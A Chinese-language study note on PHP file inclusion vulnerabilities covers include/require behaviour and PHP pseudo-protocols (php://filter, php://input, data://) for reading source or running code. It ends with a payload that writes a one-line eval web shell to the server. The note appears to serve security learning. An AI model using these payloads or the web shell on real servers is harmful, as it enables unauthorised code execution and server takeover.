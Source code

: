 #### 文件包含

include,include_once,require,require_once,文件包含函数会将包含的文件中的内容以php代码执行，include类的函数会产生警告，脚本继续运行，而require类的函数会在出错时产生E_COMPILE_ERROR级别的错误，停止运行

当url处有类似文件名的参数时会产生文件包含漏洞，可以随意更改参数来访问服务器本地文件，allow_url_include开启的情况下可以访问远程文件，危害更大

攻击者也可利用php伪协议，进行读写php代码

1. file://     访问本地文件

2. http://    访问 HTTP网址

3. php://      输入输出流访问

   1. url?filename=php://filter/read=过滤器1|过滤器2/resource=要读取的文件的相对当前网页路径

      过滤器：

      1. 字符串过滤器

         1. string.rot13：字符右移13位
         2. string.toupper：将所有字符转换为大写
         3. string.tolower：将所有字符转换为小写
         4. string.strip_tags：去除内容中的标签

      2. 转换过滤器：convert.base64-encode和convert.base64-decode

         防止直接写出php代码直接执行导致编译后看不到源码

   2. url?filename=php://input    post参数      allow_url_include:on

      将post参数当作php代码执行，一般直接写入一句话木马不行，需要新建文件写入

       ex：

      ~~~php
      <?php fwrite(fopen("not_shell.php","w+") ,'<?php @eval($_POST["cmd"]); ?>');?>
      ~~~

4. data://text/plain,php代码      allow_url_fopen:on & allow_url_include :on   执行php代码